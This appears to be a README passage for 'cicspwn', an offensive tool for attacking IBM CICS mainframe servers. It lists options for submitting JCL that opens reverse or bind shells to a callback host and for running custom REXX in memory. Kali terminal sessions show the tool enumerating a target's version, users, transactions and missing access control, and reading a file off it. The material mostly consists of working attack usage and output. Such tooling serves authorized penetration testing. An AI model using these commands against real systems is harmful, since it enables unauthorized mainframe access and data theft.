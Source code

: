 ```
                        Submit JCL to CICS server. Specify:
                        dummy,reverse_unix, reverse_tso, direct_unix,
                        reverse_unix, ftp or custom (need -j option)
  --queue QUEUE         Provides the name of the TD queue to submit a JOB
  --ftp-cmds FTP_CMDS   Files containig a list of ftp commands to execute
  --node NODE           System node name where the JOB should be submitted
                        (works only with Spool functions)
  -l LHOST, --lhost LHOST
                        Remote server to call back to for reverse shell
                        (host:port)
  --port PORT           Remote port to open for bind shell in REXX
  --jcl JCL             Custom JCL file to provide
  --rexx REXX_FILE      Custom REXX file to execute in memory. No label or
                        line continuation must be present in the file

```
## Prerequisites
3270 Python library [py3270](https://pypi.python.org/pypi/py3270/0.2.0)
x3270, s3270 or wc3270.exe installed on your sytem

## Getting general information
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -i
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting information about CICS server (APPLID: CICS)
    [*] CICS TS Version: 3.2
    [*] CICS default user: CICSUSER
[+] Interesting and available IBM supplied transactions:
    [*] CEMT
    [*] CEDA
    [*] CECI
    [*] CECS
    [*] CEBR
[+] General system information:
    [*] Userid: CICSUSER
    [*] Sysid: S650
    [*] LU session name: LCL702
    [*] language: E
    [*] Files HLQ:  CICS650.**
    [*] Library path:   DFH320.CICS.**
[+] Active users
    [*] CICSUSER
    [*] CICSUSER
    [*] CICSUSER
[+] JCL Submission
    [*] Access to the internal spool is apparently available
[+] Access control
    [*] CICS does not use RACF/ACF2/TopSecret. Every user has as much access as the CICS region ID

```
## Read a file
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 --get-file FILEA
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting Attributes of file FILEA
[*] File FILEA is enabled, open, and readable
[*] Record size: 80 keylength:6
' 000100':  START OF DATA
...
```